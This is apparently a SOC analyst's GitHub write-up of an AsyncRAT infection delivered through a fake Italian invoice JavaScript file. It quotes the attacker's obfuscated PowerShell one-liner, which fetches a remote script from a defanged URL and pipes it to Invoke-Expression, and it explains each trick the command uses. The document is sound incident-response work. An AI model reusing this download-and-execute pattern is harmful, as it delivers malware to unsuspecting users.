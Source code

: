 # incident-AsyncRAT

![image alt](https://github.com/dita-cyber/incident-AsyncRAT/blob/69df1a142796b4e89f004cac8a2aaa4e5ebd004c/asrat.png)

As a SOC analyst, I recently worked on an intriguing incident involving "Execution via PowerShell" that was flagged by CrowdStrike Falcon. The alert was related to AsyncRAT, a stealthy malware variant known for its ability to establish intermittent, non-persistent communication with a C2 server using protocols like HTTP/S or DNS. It often leverages encryption and obfuscation to evade detection, making it a particularly challenging threat to tackle.

Timeline of events observed:

HOST > winlogon.exe > userinit.exe > explorer.exe > msedge.exe > wscript.exe > powershell.exe

The command line involved in the incident was:
"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe" -noprofile -executionpolicy bypass -WindowStyle hidden -C "Set-Alias -Name mint -Value ('{0}{1}' -f 'cu','rl'); mint -useb hXXp[:]//XXXXXXXXX.XX/1.php?s=flibabc13 | &('{1}{0}' -f 'x', 'ie')"

Breaking down the command, it was observed:

Alias Obfuscation with:
string formatting (-f) to concatenate cu and rl 
curl is an alias for Invoke-WebRequest

Downloading Payload: 
The -useb flag is short for -UseBasicParsing, which simplifies the web request by avoiding the Internet Explorer engine.

Code Execution: 
The pipe |  sends the downloaded script content to iex  (short for Invoke-Expression ), executing it as PowerShell code.

Further investigation revealed that a JavaScript file was downloaded:
"C:\Windows\System32\WScript.exe" "C:\Users\USERNAME\Downloads\FatturaXXXXXXXXX.js"

Upon analyzing the URL on VirusTotal, it was confirmed as malicious. The JavaScript file was also flagged as malicious after being run in Joe Sandbox, revealing a 100% malicious behavior.

Response and escalation performed:
Fortunately, the host was already contained, and all processes related to the incident were blocked. I sent an escalation report to the client, detailing the findings and IOCs.

I also performed further investigation to trace the event's origin. I investigated the wscript.exe process using the query field to search for the JavaScript file name, "FatturaXXXXXXX.js," and discovered a log entry with a previously unseen Host URL. Analyzing this URL in Joe Sandbox showed page was not reacheble anymore and checking VirusTotal for the domain returned as 2/97 malicious. 

Interestingly, the client is an Italian company, and "fattura" means "invoice" in Italian. It appears to be part of a broader campaign targeting various countries using fake invoices to infect hosts.
